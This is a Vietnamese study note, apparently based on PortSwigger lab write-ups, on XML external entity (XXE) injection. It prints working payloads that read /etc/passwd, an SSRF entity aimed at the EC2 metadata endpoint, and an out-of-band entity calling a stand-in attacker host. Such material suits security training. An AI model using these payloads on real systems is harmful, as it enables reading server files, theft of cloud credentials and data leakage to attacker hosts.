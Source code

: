 # XXE

## Khái niệm:

> XXE (XML external entity injection) là 1 vul web cho phép `attacker` tấn công, can thiệp vào quá trình xử lí `xml data`.
>
> Nó cho phép `attacker` xem các file trên `system` và tương tác với chúng, thực hiện `SSRF`, `Access Control Bypass` kết hợp với `RCE`, ...
> ![img](https://truongtn.files.wordpress.com/2021/06/xxe.png)

## Làm thế nào để XXE phát sinh

> Một số ứng dụng dùng `XMl` để truyền data giữa `Browser` và `Server`. Các ứng dụng thực hiện đều này hầu như luôn sử dụng `lib` hoặc `API` để xử lý `XML` trên `Server`.
>
> Các vul `XXE` phát sinh do đặc tả của `XML` chứa nhiều tính năng nguy hiểm tiềm ẩn khác nhau.

## Các loại XXE attack:

> - Khai thác `XXE` để truy xuất file (Exploiting XXE to retrieve files): Trong 1 thực thể bên ngoài được xác định có chứa content của file, và được trả về trong phản hồi của ứng dụng
> - Khai thác `XXE` để thực hiện `SSRF` (Exploiting XXE to perform SSRF attacks): Nơi mà `entity` bên ngoài được xác định dựa trên `URL` đến hệ thống `back-end`
> - Khai thác `Blind XXE` `out-of-band` (Exploiting blind XXE exfiltrate data out-of-band): Nơi data nhạy cảm được truyền từ `server` tới hệ thống mà `attacker` kiểm soát
> - Khai thác `blind XXE` để truy xuất dữ liệu qua thông báo lỗi (Exploiting blind XXE to retrieve data via error messages): Nơi mà `attacker` có thể kích hoạt thông báo lỗi phân tích cú pháp dữ liệu `sensitive`

## Hậu quả:

> `attacker` có thể lấy được dữ liệu của hệ thống, ngoài ra kẻ tấn công còn truy cập tới các ứng dụng, thiết bị phụ trợ mà ứng dụng này được phép truy cập...

## Exploiting XXE to retrieve files (Khai thác XXE để truy xuất file)

> Để khai thác được lỗi này, có 2 cách để sửa `XML` đã gửi:
>
> - Sửa phần từ `DOCTYPE` xác định một thực thể bên ngoài chứa đường dẫn tới tệp
> - Chỉnh sửa giá trị trong `XML` được trả về trong `response` của app để sử dụng thực thể bên ngoài đã xác định

> Ví dụ một ứng dụng mua sắm kiểm tra mức độ còn sản phẩm của ứng dụng bằng cách gửi `XML` lên máy chủ:
>
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <stockCheck><productId>381</productId></stockCheck>
> ```

> Ứng dụng đã không triển khai bất kì hình thức nào để chống `XXE` vì vậy có thể `exploit` để truy xuất `/etc/passwd` file bằng cách gửi `payloads` sau:
>
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
> <stockCheck><productId>&xxe;</productId></stockCheck>
> ```

> `payload` này xác định thực thể bên ngoài `&xxe` có giá trị là content của tệp `/etc/passwd` và sử dụng trong thực thể `productId`. Điều này khiến app trả về:
>
> ```
> Invalid product ID: root:x:0:0:root:/root:/bin/bash
> daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
> bin:x:2:2:bin:/bin:/usr/sbin/nologin
> ...
> ```

#### Lab: Exploiting XXE using external entities to retrieve files

> Tag: Apprentice
>
> Des: Lab này chứa tính năng `check stock` phân tích cú pháp `input XML` và trả về `value` không mong muốn. Để `solve` thì hãy đưa 1 thực thể bên ngoài và truy xuất content của `/etc/passwd`

**Giao diện ban đầu**

> ![img](../asset/xxe-Exploiting-XXE-using-external-entities-to-retrieve-files-0.png)

> Dùng `Burp` chặn `request` chỗ `check stock`, lúc đầu sẽ như này:
> ![img](../asset/xxe-Exploiting-XXE-using-external-entities-to-retrieve-files-1.png)

> Sửa đoạn `XML`:
>
> ```
> <?xml version="1.0" encoding="UTF-8"?>
>
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
>
> <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
> ```

> Trả về:
> ![img](../asset/xxe-Exploiting-XXE-using-external-entities-to-retrieve-files-2.png)

> DONE:
> ![img](../asset/xxe-Exploiting-XXE-using-external-entities-to-retrieve-files-3.png)

---

## Exploiting XXE to perform SSRF attacks

> Ngoài việc truy xuất dữ liệu nhạy cảm, tác động khác của `XXE` là chúng có thể được sử dụng để thực hiện `SSRF`.
>
> Để thực hiện `XXE` cùng với `SSRF`, cần 1 `entity` bên ngoài bằng cách sửa dụng `URL` mà bạn muốn nhắm mục tiêu và sử dụng `entity` đã xác định trong 1 giá trị dữ liệu
>
> Ví dụ:
>
> ```
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
> ```

#### Lab: Exploiting XXE to perform SSRF attacks

> Tag: Apprentice
>
> Des: Lab này sử dụng `XML` để kiểm tra `stock`, `server` đang chạy `EC2 metadata endpoint` : `http://169.254.169.254` để truy xuất dữ liệu.
>
> Để solve hãy exploit `XXE` cùng với `SSRF` để lấy được khóa bí mật `AIM`

**Giao diện**

> ![img](../asset/xxe-Exploiting-XXE-to-perform-SSRF-attacks-0.png)

> Chặn bắt `request stock`:
> ![img](../asset/xxe-Exploiting-XXE-to-perform-SSRF-attacks-1.png)

> Vì điểm cuối (endpoint) được truy xuất nên lấy `endpoint` được trả về rồi cho vào path send tiếp:
> ![img](../asset/xxe-Exploiting-XXE-to-perform-SSRF-attacks-2.png) ![img](../asset/xxe-Exploiting-XXE-to-perform-SSRF-attacks-3.png) ![img](../asset/xxe-Exploiting-XXE-to-perform-SSRF-attacks-4.png) ![img](../asset/xxe-Exploiting-XXE-to-perform-SSRF-attacks-5.png)

> DONE:
> ![img](../asset/xxe-Exploiting-XXE-to-perform-SSRF-attacks-6.png) ![img](../asset/xxe-Exploiting-XXE-to-perform-SSRF-attacks-7.png)

---

## Blind XXE vulnerabilities

> Nhiều trường hợp vul `XXE` bị mù. Điều này có nghĩa ứng dụng không trả về giá trị của bất kì `entity` nào bên ngoài đã được xác định trong `response` và do đó không thể truy xuất tệp
>
> `Blind XXE` vẫn có thể exploit và detected, nhưng cần một số biện pháp tiên tiến hơn. Đôi khi phải cần kỹ thuật `out-of-band` để find và exploit chúng để lấy data. Hoặc có thể kích hoạt `XML parsing errors` theo cách thông báo lỗi dữ liệu nhạy cảm

### Detecting blind XXE using out-of-band (OAST) techniques

> Thường có thể phát hiện `Blind XXE` bằng cách sử dụng kỹ thuật tương tác như đối với `XXE SSRF` nhưng kích hoạt tương tác mạng với `out-of-band` với hệ thống kiểm soát
>
> Ví dụ:
>
> ```
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
> ```

> Sau đó, sử dụng `entity` đã xác định trong một giá trị dữ liệu trong `XML`
>
> Cuộc `attack XXE` này khiến `server` thực hiện một yêu cầu `backend` tới `URL` được chỉ định. `Attacker` có thể monitor kết quả `DNS` và yêu cầu `HTTP` do đó `XXE` thành công

#### Lab: Blind XXE with out-of-band interaction

> Des: Lab này có tính năng `check stock` phân tích cú pháp `XML` nhưng không hiển thị hết kết quả
>
> `Detect blind XXE vul` bằng cách kích hoạt `out-of-band` với miền bên ngoài
>
> Để solve dùng 1 `entity` bên ngoài cho trình phân tích `XML` tra cứu `DNS` và `Burp Collaborator`

**Giao diện**
![img](../asset/xxe-Blind-XXE-with-out-of-band-interaction-0.png)

> Dùng Burp để chặn `request` và dùng `Burp Collaboratory`:
> ![img](../asset/xxe-Blind-XXE-with-out-of-band-interaction-1.png)

> Sửa http lấy từ `Collaborator`:
>
> Thêm vào `XML`:
>
> ```
> <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
> ```
>
> ![img](../asset/xxe-Blind-XXE-with-out-of-band-interaction-2.png)

> Xong:
> ![img](../asset/xxe-Blind-XXE-with-out-of-band-interaction-3.png) ![img](../asset/xxe-Blind-XXE-with-out-of-band-interaction-4.png)
